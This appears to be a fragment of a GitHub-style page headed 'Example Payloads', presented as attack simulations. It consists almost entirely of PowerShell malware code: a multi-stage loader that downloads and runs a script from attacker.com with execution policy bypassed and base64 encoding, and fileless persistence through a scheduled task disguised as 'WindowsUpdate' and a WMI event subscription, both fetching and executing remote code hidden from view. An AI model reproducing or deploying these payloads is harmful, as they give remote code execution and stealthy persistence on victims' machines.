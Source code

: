```python
```

## Example Payloads

### 1. Advanced Persistent Threat (APT) Simulation
```powershell
# Multi-stage malware deployment
$stage1 = @"
# Download second stage
$url = "http://attacker.com/stage2.ps1"
$path = "$env:TEMP\update.ps1"
(New-Object System.Net.WebClient).DownloadFile($url, $path)
powershell -ExecutionPolicy Bypass -File $path
"@

# Encode payload
$bytes = [System.Text.Encoding]::Unicode.GetBytes($stage1)
$encoded = [Convert]::ToBase64String($bytes)

# Execute encoded payload
powershell -EncodedCommand $encoded
```

### 2. Fileless Malware Attack
```powershell
# Living-off-the-land binary (LOLBin) abuse
# Using PowerShell for persistence
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -Command `"IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')`""
$trigger = New-ScheduledTaskTrigger -Daily -At "9:00AM"
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "WindowsUpdate" -Description "Windows Update Service"

# WMI persistence
$filterName = 'ProcessFilter'
$consumerName = 'ProcessConsumer'
$Query = "SELECT * FROM Win32_VolumeChangeEvent WHERE EventType = 2"
$Command = "powershell.exe -WindowStyle Hidden -Command `"IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')`""

# Create WMI event filter
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{
    Name = $filterName
    EventNamespace = 'root\cimv2'
    QueryLanguage = "WQL"
    Query = $Query
}

# Create WMI event consumer
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
    Name = $consumerName
    CommandLineTemplate = $Command
}
```
